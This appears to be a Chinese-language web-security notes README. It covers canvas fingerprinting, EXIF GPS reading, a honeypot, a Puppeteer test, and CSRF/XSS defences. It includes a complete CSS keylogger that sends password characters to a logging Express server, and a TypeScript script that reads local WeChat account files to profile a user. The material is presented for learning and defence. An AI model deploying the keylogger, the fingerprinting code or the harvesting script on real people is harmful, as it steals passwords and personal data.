





### 网络安全防御

### canvas指纹追踪技术

> ````bash
> ## canvas 指纹追踪技术
> canvas 可以用来跟踪用户当我们调用toDataURL转换base64，他底层会获取设备，操作系统，浏览器，三合一的唯一标识，如果其他用户使用的这三个信息和你一样的话也是重复这个概率是很低的也不排除有可能。
> 注意：其在每个浏览器中生成的base64字符串是不同的，但是图片是相同的
> 如果太长可以进行 MD5 压缩 或者 crypto
> 
> 
> # 生成canvas指纹
> const uuid = () => {
>   const canvas = document.createElement('canvas');
>   const ctx = canvas.getContext('2d');
>   const txt = 'test';
>   ctx.fillText(txt, 10, 10)
>   console.log(canvas.toDataURL())
>   return md5(canvas.toDataURL())
> } 
> 
> 
> # 如何防止跟踪
> 安装浏览器插件，谷歌应用商店有随机修改canvas指纹的插件（CanvasFingerprintBlock）
> 其原理是：每次随机往 canvas 画布里面注入一个随机的噪音（人肉眼是看不到的），从而影响base64加密结果
> 
> ````

### CSS 键盘记录器-React

> ```bash
> 这种行为只存在于使用 React / 类React 框架的页面中
> 场景一般隐匿于第三方脚本当中从而窃取你的密码
> 攻击手段利用 CSS 属性选择器，可以在加载background-image
> 
> 例如，以下 css 将选择 <input>的 type等于password和 value以结尾的所有输入a。
> 然后它将尝试从http://localhost:3000/a
> 使用一个简单的脚本可以创建一个css 文件，该文件将为每个 ASCII 字符发送一个自定义请求。
> 应为react会设置value 的值
> 
> 
> 如此会为发送一个请求到服务器中，每次输入都会进行一次网络请求，而我们可以根据它这个网络请求的后缀来获取用户输入的密码为多少
> ```
>
> 
>
> 
>
> #### css列表
>
> ```css
> input[type="password"][value$=" "] { background-image: url("http://localhost:3000/+"); }
> input[type="password"][value$="!"] { background-image: url("http://localhost:3000/%21"); }
> input[type="password"][value$="\""] { background-image: url("http://localhost:3000/%22"); }
> input[type="password"][value$="#"] { background-image: url("http://localhost:3000/%23"); }
> input[type="password"][value$="$"] { background-image: url("http://localhost:3000/%24"); }
> input[type="password"][value$="%"] { background-image: url("http://localhost:3000/%25"); }
> input[type="password"][value$="&"] { background-image: url("http://localhost:3000/%26"); }
> input[type="password"][value$="'"] { background-image: url("http://localhost:3000/%27"); }
> input[type="password"][value$="("] { background-image: url("http://localhost:3000/%28"); }
> input[type="password"][value$=")"] { background-image: url("http://localhost:3000/%29"); }
> input[type="password"][value$="*"] { background-image: url("http://localhost:3000/%2A"); }
> input[type="password"][value$="+"] { background-image: url("http://localhost:3000/%2B"); }
> input[type="password"][value$=","] { background-image: url("http://localhost:3000/%2C"); }
> input[type="password"][value$="-"] { background-image: url("http://localhost:3000/-"); }
> input[type="password"][value$="."] { background-image: url("http://localhost:3000/."); }
> input[type="password"][value$="/"] { background-image: url("http://localhost:3000/%2F"); }
> input[type="password"][value$="0"] { background-image: url("http://localhost:3000/0"); }
> input[type="password"][value$="1"] { background-image: url("http://localhost:3000/1"); }
> input[type="password"][value$="2"] { background-image: url("http://localhost:3000/2"); }
> input[type="password"][value$="3"] { background-image: url("http://localhost:3000/3"); }
> input[type="password"][value$="4"] { background-image: url("http://localhost:3000/4"); }
> input[type="password"][value$="5"] { background-image: url("http://localhost:3000/5"); }
> input[type="password"][value$="6"] { background-image: url("http://localhost:3000/6"); }
> input[type="password"][value$="7"] { background-image: url("http://localhost:3000/7"); }
> input[type="password"][value$="8"] { background-image: url("http://localhost:3000/8"); }
> input[type="password"][value$="9"] { background-image: url("http://localhost:3000/9"); }
> input[type="password"][value$=":"] { background-image: url("http://localhost:3000/%3A"); }
> input[type="password"][value$=";"] { background-image: url("http://localhost:3000/%3B"); }
> input[type="password"][value$="<"] { background-image: url("http://localhost:3000/%3C"); }
> input[type="password"][value$="="] { background-image: url("http://localhost:3000/%3D"); }
> input[type="password"][value$=">"] { background-image: url("http://localhost:3000/%3E"); }
> input[type="password"][value$="?"] { background-image: url("http://localhost:3000/%3F"); }
> input[type="password"][value$="@"] { background-image: url("http://localhost:3000/%40"); }
> input[type="password"][value$="A"] { background-image: url("http://localhost:3000/A"); }
> input[type="password"][value$="B"] { background-image: url("http://localhost:3000/B"); }
> input[type="password"][value$="C"] { background-image: url("http://localhost:3000/C"); }
> input[type="password"][value$="D"] { background-image: url("http://localhost:3000/D"); }
> input[type="password"][value$="E"] { background-image: url("http://localhost:3000/E"); }
> input[type="password"][value$="F"] { background-image: url("http://localhost:3000/F"); }
> input[type="password"][value$="G"] { background-image: url("http://localhost:3000/G"); }
> input[type="password"][value$="H"] { background-image: url("http://localhost:3000/H"); }
> input[type="password"][value$="I"] { background-image: url("http://localhost:3000/I"); }
> input[type="password"][value$="J"] { background-image: url("http://localhost:3000/J"); }
> input[type="password"][value$="K"] { background-image: url("http://localhost:3000/K"); }
> input[type="password"][value$="L"] { background-image: url("http://localhost:3000/L"); }
> input[type="password"][value$="M"] { background-image: url("http://localhost:3000/M"); }
> input[type="password"][value$="N"] { background-image: url("http://localhost:3000/N"); }
> input[type="password"][value$="O"] { background-image: url("http://localhost:3000/O"); }
> input[type="password"][value$="P"] { background-image: url("http://localhost:3000/P"); }
> input[type="password"][value$="Q"] { background-image: url("http://localhost:3000/Q"); }
> input[type="password"][value$="R"] { background-image: url("http://localhost:3000/R"); }
> input[type="password"][value$="S"] { background-image: url("http://localhost:3000/S"); }
> input[type="password"][value$="T"] { background-image: url("http://localhost:3000/T"); }
> input[type="password"][value$="U"] { background-image: url("http://localhost:3000/U"); }
> input[type="password"][value$="V"] { background-image: url("http://localhost:3000/V"); }
> input[type="password"][value$="W"] { background-image: url("http://localhost:3000/W"); }
> input[type="password"][value$="X"] { background-image: url("http://localhost:3000/X"); }
> input[type="password"][value$="Y"] { background-image: url("http://localhost:3000/Y"); }
> input[type="password"][value$="Z"] { background-image: url("http://localhost:3000/Z"); }
> input[type="password"][value$="["] { background-image: url("http://localhost:3000/%5B"); }
> input[type="password"][value$="\\"] { background-image: url("http://localhost:3000/%5C"); }
> input[type="password"][value$="]"] { background-image: url("http://localhost:3000/%5D"); }
> input[type="password"][value$="^"] { background-image: url("http://localhost:3000/%5E"); }
> input[type="password"][value$="_"] { background-image: url("http://localhost:3000/_"); }
> input[type="password"][value$="`"] { background-image: url("http://localhost:3000/%60"); }
> input[type="password"][value$="a"] { background-image: url("http://localhost:3000/a"); }
> input[type="password"][value$="b"] { background-image: url("http://localhost:3000/b"); }
> input[type="password"][value$="c"] { background-image: url("http://localhost:3000/c"); }
> input[type="password"][value$="d"] { background-image: url("http://localhost:3000/d"); }
> input[type="password"][value$="e"] { background-image: url("http://localhost:3000/e"); }
> input[type="password"][value$="f"] { background-image: url("http://localhost:3000/f"); }
> input[type="password"][value$="g"] { background-image: url("http://localhost:3000/g"); }
> input[type="password"][value$="h"] { background-image: url("http://localhost:3000/h"); }
> input[type="password"][value$="i"] { background-image: url("http://localhost:3000/i"); }
> input[type="password"][value$="j"] { background-image: url("http://localhost:3000/j"); }
> input[type="password"][value$="k"] { background-image: url("http://localhost:3000/k"); }
> input[type="password"][value$="l"] { background-image: url("http://localhost:3000/l"); }
> input[type="password"][value$="m"] { background-image: url("http://localhost:3000/m"); }
> input[type="password"][value$="n"] { background-image: url("http://localhost:3000/n"); }
> input[type="password"][value$="o"] { background-image: url("http://localhost:3000/o"); }
> input[type="password"][value$="p"] { background-image: url("http://localhost:3000/p"); }
> input[type="password"][value$="q"] { background-image: url("http://localhost:3000/q"); }
> input[type="password"][value$="r"] { background-image: url("http://localhost:3000/r"); }
> input[type="password"][value$="s"] { background-image: url("http://localhost:3000/s"); }
> input[type="password"][value$="t"] { background-image: url("http://localhost:3000/t"); }
> input[type="password"][value$="u"] { background-image: url("http://localhost:3000/u"); }
> input[type="password"][value$="v"] { background-image: url("http://localhost:3000/v"); }
> input[type="password"][value$="w"] { background-image: url("http://localhost:3000/w"); }
> input[type="password"][value$="x"] { background-image: url("http://localhost:3000/x"); }
> input[type="password"][value$="y"] { background-image: url("http://localhost:3000/y"); }
> input[type="password"][value$="z"] { background-image: url("http://localhost:3000/z"); }
> input[type="password"][value$="{"] { background-image: url("http://localhost:3000/%7B"); }
> input[type="password"][value$="|"] { background-image: url("http://localhost:3000/%7C"); }
> input[type="password"][value$="\\}"] { background-image: url("http://localhost:3000/%7D"); }
> input[type="password"][value$="~"] { background-image: url("http://localhost:3000/~"); }
> input[type="password"][value$=""] { background-image: url("http://localhost:3000/%7F"); }
> ```
>
> #### 服务器端express 便可以取截取到你传输的数据
>
> ```js
> const express = require("express")
> const app = express()
> app.get("/:key", (req, res) => {
>   process.stdout.write(req.params.key)
>   return res.sendStatus(400)
> })
> app.listen(3000, () => console.log("> Ready to keylog at localhost:3000"))
> ```
>
> #### React代码
>
> ```jsx
> <script src="https://cdn.bootcdn.net/ajax/libs/react/16.13.1/umd/react.production.min.js"></script>
> <script src="https://cdn.bootcdn.net/ajax/libs/react-dom/16.13.1/umd/react-dom.production.min.js"></script>
> <script src="https://cdn.bootcdn.net/ajax/libs/babel-standalone/7.0.0-beta.3/babel.min.js"></script>
> 
> <script type="text/babel">
>   const Ipt =  React.createElement(()=>{
>     const {  useState } = window.React;
>     const [state,setState] = useState({val:"123"})
>     const setInput = (e) => {
>       setState({
>         val:e.target.value
>       })
>     }
>     return <input type="password" onChange={setInput} value={state.val}></input>
>   })
>   ReactDOM.render(Ipt,document.getElementById('app'))
> </script>
> ```

### 照片信息EXIF

>```bash
># EXIF 概述
>EXIF（Exchangeable Image File）是“可交换图像文件”的缩写，当中包含了专门为数码相机的照片而定制的元数据，可以记录数码照片的拍摄参数、缩略图及其他属性信息，简单来说，Exif信息是镶嵌在 JPEG/TIFF 图像文件格式内的一组拍摄参数，需要注意的是EXIF信息是不支持png,webp等图片格式的。（建议自己试的时候现拍一张，把地理位置信息开启，这样得到的是完整的EXIF信息）
>
>简单来说就是当你拍照片的时候会存储你的一些信息，例如拍摄的位置，拍摄的时间，相机参数等，这些信息的泄露也会给我们造成麻烦。
>
>场景 我们经常在一些聊天软件传输一些照片，例如WX你默认传输的时候他是会被压缩体积很小，应为破坏了EXIF信息，当你设置了原图传输他将保留你照片的EXIF 信息别人只要查看就可以读取你照片的信息。
>
>
># 说明
>当获取别人的原图下载之后，可以通过照片的详细信息看到EXIF 版本。
>然后上传到获取EXIF 的网站，基本能获取到很多信息例如：Device Manufacturer（设备制造厂商）-> Apple 苹果
>当然我们的web js 也是可以读取这些信息的
>
>
># 需要引入一个库的支持EXIF-js
><script src="https://cdn.jsdelivr.net/npm/exif-js"></script>
>
>
># EXIF 的方法
>EXIF.getData(img, callback)获取图像的数据
>EXIF.getTag(img, tag)获取图像的某个数据
>EXIF.getAllTags(img)获取图像的全部数据，值以对象的方式返回
>EXIF.pretty(img)获取图像的全部数据，值以字符串的方式返回
>
>
># 部分参数说明
>1. GPS 处理方法名
>   GPSAreaInformation GPS 区功能变数名
>   GPSDateStampGPS 日期
>   GPSDifferential GPS 修正
>
>2. GPS 相关名称说明
>   GPSVersionIDGPS 版本
>   GPSLatitudeRef南北纬
>   GPSLatitude纬度
>   GPSLongitudeRef东西经
>   GPSLongitude经度
>   GPSAltitudeRef海拔参照值
>   GPSAltitude海拔
>   GPSTimeStamp GPS 时间戳
>   GPSSatellites测量的卫星
>   GPSStatus接收器状态
>   GPSMeasureMode测量模式
>   GPSDOP测量精度
>   GPSSpeedRef速度单位
>   GPSSpeed GPS 接收器速度
>   GPSTrackRef移动方位参照
>   GPSTrack移动方位
>   GPSImgDirectionRef图像方位参照
>   GPSImgDirection图像方位
>   GPSMapDatum地理测量资料
>   GPSDestLatitudeRef目标纬度参照
>   GPSDestLatitude目标纬度GPSDestLongitudeRef目标经度参照
>   GPSDestLongitude目标经度
>   GPSDestBearingRef目标方位参照
>   GPSDestBearing目标方位
>   GPSDestDistanceRef目标距离参照
>   GPSDestDistance目标距离
>   GPSProcessingMethod
>```
>
>````html
><div>
> 
> <p>非原图</p>
></div>
><div>
> 
> <p>原图</p>
></div>
><div>
> 
> <p>原图2</p>
></div>
>
><srcipt>
> const file = document.querySelector('#img3')
> EXIF.getData(file, function () {
>     const data = EXIF.pretty(this);
>     console.log(data);
> })
></srcipt>
>````
>
>
>
>

## 蜜罐技术

> ```bash
> # 一、蜜罐介绍
> 蜜罐是对攻击者的欺骗技术，用以监视、检测、分析和溯源攻击行为，其没有业务上的用途，所有流入/流出蜜罐的流量都预示着扫描或者攻击行为，因此可以比较好的聚焦于攻击流量。
> 
> 蜜罐可以实现对攻击者的主动诱捕，能够详细地记录攻击者攻击过程中的许多痕迹，可以收集到大量有价值的数据，如病毒或蠕虫的源码、黑客的操作等，从而便于提供丰富的溯源数据。另外蜜罐也可以消耗攻击者的时间，基于JSONP等方式来获取攻击者的画像。
> 
> 但是蜜罐存在安全隐患，如果没有做好隔离，可能成为新的攻击源。
> 
> 
> # 二、蜜罐技术获取手机号、微信号、地址
> 1.读取 PFRO日志文件（这个文件是存放ISA监控日志的信息）
> 通过这个文件可以读取系统的用户名
> ```
>
> ````ts
> /*
>  * index.ts
>  * 需要生成package.json：npm init -y
>  * 需要安装依赖库：npm i ts-node -g
>  * 需要安装声明文件：npm i @types/node -D
>  * 通过 ts-node index.ts 进行启动项目
>  */
> import fs from 'fs';
> //获取微信ID
> const getWxId = <T>(path: T) => {
>   const data = fs.readFileSync(`C:/Users/${path}/Documents/WeChat Files/All Users/config/config.data`).toString('utf8')
>   const reg = /Documents\\WeChat Files\\([^\\]*)/ig
>   reg.test(data)
>   return RegExp.$1
> }
> 
> //读取信息
> const getData = <T>(path: T, wxId: T) => {
>   const data = fs.readFileSync(`C:/Users/${path}/Documents/WeChat Files/${wxId}/config/AccInfo.dat`).toString('utf-8')
>   return data
> 
> }
> fs.readFile('C:/Windows/PFRO.log', async (err, data) => {
>   const exp = /Users\\([^\\]*)/ig
>   exp.test(data.toString('utf16le'))
>   const userName = RegExp.$1
>   const wxId = await getWxId(userName)
>   const info = await getData(userName, wxId)
>   console.log(info);
> })
> ````

## 自动化UI测试

> ```bash
> # npm包 Puppeteer 的功能
>  支持分布式爬取
>  实现了深度优先和广度优先算法
>  支持csv和json line格式导出
>  插件式的结果存储，比如支持redis
>  自动插入jquery，可以使用jquery语法进行结果处理
>  支持截图作为爬取证据
>  支持模拟不同的设备
> 
> 
> # 安装 Puppeteer（他的包很大100MB，因为它携带了Chromium ）
> npm init -y
> npm install pnpm -g //装过可以忽略
> pnpm add puppeteer
> 
> # 运行 && 结果
> 运行：ts-node index.ts 
> 结果：会自动打开所设定的页面，并自己滚动页面然后截屏，并把截图放入项目目录下
> ```
>
> ```ts
> /* 需要安装依赖，然后通过 ts-node index.ts启动，其会生成图片到项目目录下 */
> import puppeteer from "puppeteer"
> 
> //延迟函数
> const sleep = (time: number) => {
>   return new Promise((r, j) => {
>      setTimeout(() => { r(time) }, time)
>   })
> }
> 
> (async () => {
>   // 通过 launch 生成一个’浏览器‘实例,option 中的 headless 是个布尔值，
>   // 如果是 false 的话你就会看到一个浏览器从打开，到完成你整个任务的全过程，
>   // 默认是 true，也就是在后台自动完成你的任务
>   const browser = await puppeteer.launch({
>      headless: false,
>      defaultViewport: null,
>      args: ['--start-maximized']
>   })
>   //打开一个新的标签页
>   const page = await browser.newPage()
>   //跳转到对应的页面
>   await page.goto('https://jd.com')
>   //获取搜索框的元素
>   const key = await page.$('#key')
>   //聚焦
>   await key?.focus()
>   //搜索东西
>   await page.keyboard.sendCharacter('iphone13')
>   //点击搜索按钮
>   await page.click('.button')
>   //延迟一秒钟
>   await sleep(1000)
>   //等待元素加载完成
>   await page.waitForSelector('.gl-item')
>   //开始自动滚动为了截图全屏有数据
>   let scrollEnable: boolean = true;
>   let scrollStep: number = 500
>   while (scrollEnable) {
>      scrollEnable = await page.evaluate((scrollStep: number) => {
>          let scrollTop: number = document.scrollingElement?.scrollTop ?? 0;
>          document.scrollingElement!.scrollTop = scrollTop + scrollStep;
>          return document.body.clientHeight > scrollTop + 1080 ? true : false
>        }, scrollStep)
>      //防止滚动过快
>      await sleep(500)
>   }
>   //截图全屏
>   await page.screenshot({path:`iphone13.png`,fullPage:true})
> })()
> ```

## 输入法

> ```bash
> # 获取用户的信息
> 输入法一定是安全的吗？在之前也曾曝出不少输入法搜集用户信息获取照片权限，通讯录权限，等。
> 试想一下当你使用某种聊天工具，在跟朋友探讨一件商品，过了一会儿，在某度，某宝，某东可能就推荐了。
> 
> # 密码付费安全
> 在我们使用微信，支付宝，等支付软件付款的时候，发现键盘是App 自带的，并非第三方输入法 
> 这个是由于第三方软件输入的频次过多他会把密码记录下来，其二就是如果三方输入法被木马入侵，也容易盗取我们的密码造成损失。
> 所以在我们开发移动端的时候遇到支付都会使用虚拟键盘
> ```

## 跨站请求伪造CSRF

> ```bash
> ## 跨站请求伪造 CSRF（Cross-site request forgery）
> 要完成一次CSRF攻击，受害者必须满足两个必要条件：
> 1. 登录受信任网站A，并在本地生成Cookie(如果用户没有登录网站A，那么网站B在诱导时请求网站A的API接口时，会提示你登录)
> 2. 在不登出A的情况下，访问危险网站B(利用了网站A的漏洞)
> 
> 
> ### CSRF防御
> 1. 在请求地址中添加 token 并验证
> 		1. 服务器发送给客户端一个 token
> 		2. 客户端提交的表单中携带这个 token
> 		3. 服务端验证这个 token，若这个 token 不合法，则服务器拒绝该请求
> 
> 2. 隐藏令牌
> 		- 把 token 隐藏到 http 的请求头中。
> 		- 即在 HTTP 请求头中自定义属性动态追加一个 token，让后端验证。
> 
> 3. Referer 验证
>     - 在 HTTP 请求的请求头中的 Referer 记录了该 HTTP 请求的来源地址。
>     - Referer 指的是页面请求来源，即只接受本站的请求，服务器才做响应；如果不是，就拦截。
> ```
> 
>**攻击原理**
> 
>
> 

## XSS

> ```bash
> ## XSS 
> XSS 攻击的核心原理：
> 不需要做任何的登录认证，它会通过合法的操作（比如在url、输入框中输入），然后向你的页面注入脚本（可能是 js、html 代码块等）。
> 
> XSS 攻击最后导致的结果可能是：
> 	- 盗用 Cookie
> 	- 破坏页面的正常结构，插入广告等恶意内容
> 	- D-doss 攻击
> 
> 
> 
> ### XSS 的防御措施（encode + 过滤）
> 首先是encode，如果是富文本，就白名单。
> 
> 1. 编码
> 对用户输入的数据进行`HTML Entity`编码，把字符转换成 转义字符。
> Encode的作用是将`$var`等一些字符进行转化，使得浏览器在最终输出结果上是一样的。
> 比如说`<script>alert(1)</script>`若不进行任何处理，则浏览器会执行alert的js操作，实现XSS注入。
> 进行编码处理之后，在浏览器中的显示结果就是`<script>alert(1)</script>`，实现了将$var作为纯文本进行输出，且不引起JavaScript的执行。
> 
> 
> 2. 过滤
> - 移除用户输入的和事件相关的属性。如onerror可以自动触发攻击，还有onclick等。（总而言是，过滤掉一些不安全的内容）
> - 移除用户输入的Style节点、Script节点、Iframe节点。（尤其是Script节点，它可是支持跨域的呀，一定要移除）。
> 
> 
> 3. 校正
> - 避免直接对`HTML Entity`进行解码。
> - 使用`DOM Parse`转换，校正不配对的DOM标签（`DOM Parse`的作用是把文本解析成DOM结构）
> 比较常用的做法是，通过第一步的编码转成文本，然后第三步转成DOM对象，然后经过第二步的过滤。
> 
> 
> 
> ### CSRF 和 XSS 的区别
> 区别一：
>     - CSRF：需要用户先登录网站A，获取 cookie。
>     - XSS：不需要登录。
> 区别二：（原理的区别）
>     - CSRF：是利用网站A本身的漏洞，去请求网站A的api。
>     - XSS：是向网站 A 注入 JS代码，然后执行 JS 里的代码，篡改网站A的内容。
> ```